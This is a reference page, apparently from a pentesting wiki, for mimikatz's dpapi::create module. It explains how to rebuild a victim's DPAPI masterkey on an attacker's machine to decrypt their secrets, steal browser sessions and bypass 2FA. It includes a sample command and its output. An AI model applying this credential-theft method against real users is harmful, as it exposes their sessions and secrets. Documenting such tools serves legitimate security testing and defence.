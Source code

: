 # create 🛠️

`dpapi::create` creates a DPAPI Masterkey file from raw key and metadata. It comes in handy when you want to decrypt a victim's DPAPI secrets locally in your machine. CoreSecurity has published a [guide](https://www.coresecurity.com/core-labs/articles/reading-dpapi-encrypted-keys-mimikatz) on how you can clone the Google Chrome Victim's session and decrypt it from your own box. Benjamin has also [tweeted](https://twitter.com/gentilkiwi/status/1236634610529959936?s=20) how you can recreate masterkeys on your own machine to steal browser sessions and bypass 2FA. It has the following command line arguments:

* `/sid`: the Security Identifier of the target user
* `/md4`: the MD4 key
* `/key`: The masterkey. It can be obtained through [`sekurlsa::dpapi`](https://tools.thehacker.recipes/mimikatz/modules/sekurlsa/dpapi)\`\`
* `/sha1`: the SHA1 key. It can be obtained through [`sekurlsa::dpapi`](https://tools.thehacker.recipes/mimikatz/modules/sekurlsa/dpapi)\`\`
* `/hash`: the SHA1 hash of YOUR password when porting the victim's DPAPI files to your system
* `/dpapi`: TODO 🛠️
* `/guid`: the user's GUID. it can be obtained through [`sekurlsa::dpapi`](https://tools.thehacker.recipes/mimikatz/modules/sekurlsa/dpapi). it is also the _**szGuid**_ output value of the `dpapi::masterkey in:"C:\Users<UserName>\AppData\Roaming\Microsoft\Protect\SID\MasterKey_ID" /rpc`
* `/system`: the DPAPI\_SYSTEM key. It can be found through [`lsadump::secrets`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/secrets)
* `/password`: This is YOUR password when porting the victim's DPAPI files to your system
* `/protected`: it defines the user account as a protected one

```
mimikatz # dpapi::create /guid:{5c22983f-77ee-41e4-9086-8073d664e417} /key:3f7a17dd6658319fcd4b832afc20ac7dacbb9d7cd668527c71f98e90464624634c614a7923a3beb23c4e24dd718f2a8e838ce72935fb29f11507affb543a53c3 /password:Super_SecretPass /protected
Target SID is: S-1-5-21-2725560159-1428537199-2260736313-1730

[masterkey] with password: Super_SecretPass (protected user)
Key GUID: {5c22983f-77ee-41e4-9086-8073d664e417}
**MASTERKEYS**
  dwVersion          : 00000002 - 2
  szGuid             : {5c22983f-77ee-41e4-9086-8073d664e417}
  dwFlags            : 00000000 - 0
  dwMasterKeyLen     : 00000108 - 264
  dwBackupKeyLen     : 00000000 - 0
  dwCredHistLen      : 00000000 - 0
  dwDomainKeyLen     : 00000000 - 0
[masterkey]
  **MASTERKEY**
    dwVersion        : 00000002 - 2
    salt             : 5c765e71ed00a886cb27b5ab5ea2ff19
    rounds           : 00000fa0 - 4000
    algHash          : 00008009 - 32777 (CALG_HMAC)
    algCrypt         : 00006603 - 26115 (CALG_3DES)
    pbKey            : 2a10ef754addc9bfcea06565e1a8fe388e4bdca26bca4c85ba2420bdfccacc343dff4ea9021ad55b6ea2f1bcfcbe95fe2f0ad6eece14e3a5797aa0957b09601f42d87ec03885cc82b2c208160e182518c9840df006d0f312d6cde65854ef8b0da26f252f7f0ad9f2


File '5c22983f-77ee-41e4-9086-8073d664e417' (hidden & system): OK
```
